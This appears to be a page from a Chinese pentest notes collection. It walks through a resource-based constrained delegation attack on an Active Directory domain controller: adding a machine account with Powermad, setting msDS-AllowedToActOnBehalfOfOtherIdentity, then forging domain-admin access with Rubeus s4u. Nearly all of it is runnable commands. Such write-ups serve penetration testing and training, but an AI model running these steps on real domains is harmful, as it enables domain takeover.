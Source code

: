 	获取域管理员
	>Get-DomainUser|select -First 1
	域对象信息
	>Get-DomainObject -Identity 'DC=zone,DC=com'
	ms-ds-machineaccountquota允许非特权用户将最多 10 台计算机连接到域
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/406.png)

	查看有没有设置msDS-AllowedToActOnBehalfOfOtherIdentity策略
	>Get-DomainComputer dc|select name, msDS-AllowedToActOnBehalfOfOtherIdentity
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/407.png)

	用powermad添加一具备SPN的机器账户
	https://github.com/Kevin-Robertson/Powermad
	>New-MachineAccount -MachineAccount newcom
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/408.png)

	或
	>$pass = ConvertTo-SecureString '123qwe!@#' -AsPlainText –Force
	>New-MachineAccount –MachineAccount newcom -Password $pass
	或
	>New-MachineAccount -MachineAccount newcom -Password $(ConvertTo-SecureString '123qwe!@#' -AsPlainText -Force)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/409.png)

	获取添加的机器账户的SID
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/410.png)

	将添加的机器账户的SID设置给DC的msDS-AllowedToActOnBehalfOfOtherIdentity参数
	>$SD=New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-2346829310-1781191092-2540298887-1122)"; $SDBytes = New-Object byte[] ($SD.BinaryLength);$SD.GetBinaryForm($SDBytes, 0);Get-DomainComputer dc | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
	设置完成后查看
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/411.png)

	配置ACL允许访问
	>$RawBytes=Get-DomainComputer dc -Properties 'msds-allowedtoactonbehalfofotheridentity' |select -expand msds-allowedtoactonbehalfofotheridentity;$Descriptor= New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes,0;$Descriptor.DiscretionaryAcl
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/412.png)

	此时使用创建的机器账户的hash可伪造域管
	先获取newcom的NTLM
	>Rubeus.exe hash /password:123qwe!@# /user:newcom /domain:zone.com
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/413.png)

	导入票据伪造域管用户访问cifs服务
	>Rubeus.exe s4u /user:newcom$ /rc4:00AFFD88FA323B00D4560B F9FEF0EC2F /impersonateuser:godadmin /msdsspn:cifs/dc.zone.com /ptt
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/414.png)

	成功获取到godadmin的tgs
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/415.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/416.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/417.png)
